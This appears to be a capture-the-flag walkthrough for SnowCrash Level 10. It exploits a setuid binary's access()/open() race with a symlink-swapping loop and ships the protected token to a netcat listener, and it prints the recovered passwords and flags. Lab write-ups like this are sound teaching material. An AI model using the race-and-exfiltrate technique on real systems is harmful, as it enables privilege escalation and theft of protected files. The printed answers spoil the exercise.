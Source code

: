 # Level 10

## Vulnerability
Privilege escalation - symlink attack

Binary ```level10``` calls access then open

## Context
We find a binary and a token.
```
level10@SnowCrash:~$ ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```
When we run the binary it tells us it tells us it sends given file to host.
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

## Solution

Can we find a host port hint in the binary?
```
level10@SnowCrash:~$ strings level10
...
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
...
```
In a second terminal lets use Netcat to listen on this port.
```
level10@SnowCrash:~$ nc 6969 -l
```
Back in the first terminal, if we create a file and send it to ourselves, it arrives in the second terminal.
```
level10@SnowCrash:~$ echo "oh hi" > /dev/shm/hi
level10@SnowCrash:~$ ./level10 /dev/shm/hi {VM_IP}
Connecting to {VM_IP}:6969 .. Connected!
Sending file .. wrote file!
```
To access the token, we find a potential weakness in the binary's use of ```access```.
```
level10@SnowCrash:~$ nm -u level10
...
         U access@@GLIBC_2.0
...
```
```man 2 access``` briefly describes [the vulnerability](https://stackoverflow.com/questions/7925177/access-security-hole)

> Warning:  Using  access()  to  check if a user is authorized to, for example, open a file
       before actually doing so using open(2) creates a security hole, because  the  user  might
       exploit  the  short time interval between checking and opening the file to manipulate it.

So lets create an infinite loop which switches a symbolic link between the binary and the token.
```
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /dev/shm/symlink; ln -fs ~/token /dev/shm/symlink; done
```
Then run the binary on the symbolic link.
```
level10@SnowCrash:~$ while true; do ./level10 /dev/shm/symlink {VM_IP}; done
```
Then when we listen, sometimes its garbage, but sometimes we read the token!
```
level10@SnowCrash:~$ nc 6969 -l
woupa2yuojeeaaed06riuj63c
```
Great!
```
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
Bonus: for some reason this token is also the password for user flag11, bypassing level11.
```
level10@SnowCrash:~$ su flag11
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

